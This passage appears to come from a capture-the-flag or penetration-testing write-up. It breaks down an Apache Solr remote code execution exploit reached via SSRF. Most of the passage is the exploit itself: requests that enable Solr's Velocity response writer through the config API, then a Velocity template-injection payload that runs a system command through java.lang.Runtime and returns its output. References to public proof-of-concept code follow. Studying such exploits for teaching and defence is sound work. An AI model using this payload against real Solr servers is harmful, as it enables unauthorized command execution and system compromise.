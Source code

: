 Reference :-

- [https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher)

Now its time for use to find, How to exploit it. So I just breakdown the exploit.

```python
## Step1

Get -> http://localhost:8983/solr/admin/cores?_=timestamp&indexInfo=false&wt=json

            => status 

-------------------------------------------------------------------------------------------

## Step2

Post -> http://localhost:8983/solr/status/config

{
    'update-queryresponsewriter': {
    'startup': 'lazy',
    'name': 'velocity',
    'class': 'solr.VelocityResponseWriter',
    'template.base.dir': '',
    'solr.resource.loader.enabled': 'true',
    'params.resource.loader.enabled': 'true'
                }
}

-------------------------------------------------------------------------------------------

## Step3

Get -> http://localhost:8983/solr/status/select?q=1

Payload:-

&&wt=velocity&v.template=custom&v.template.custom=#set($x='')+#set($rt=$x.class.forName('java.lang.Runtime'))+#set($chr=$x.class.forName('java.lang.Character'))+#set($str=$x.class.forName('java.lang.String'))+#set($ex=$rt.getRuntime().exec('id'))+$ex.waitFor()+#set($out=$ex.getInputStream())+#foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
-------------------------------------------------------------------------------------------
```

Reference :- 

- [https://github.com/AleWong/Apache-Solr-RCE-via-Velocity-template](https://github.com/AleWong/Apache-Solr-RCE-via-Velocity-template)
- [https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt](https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt)
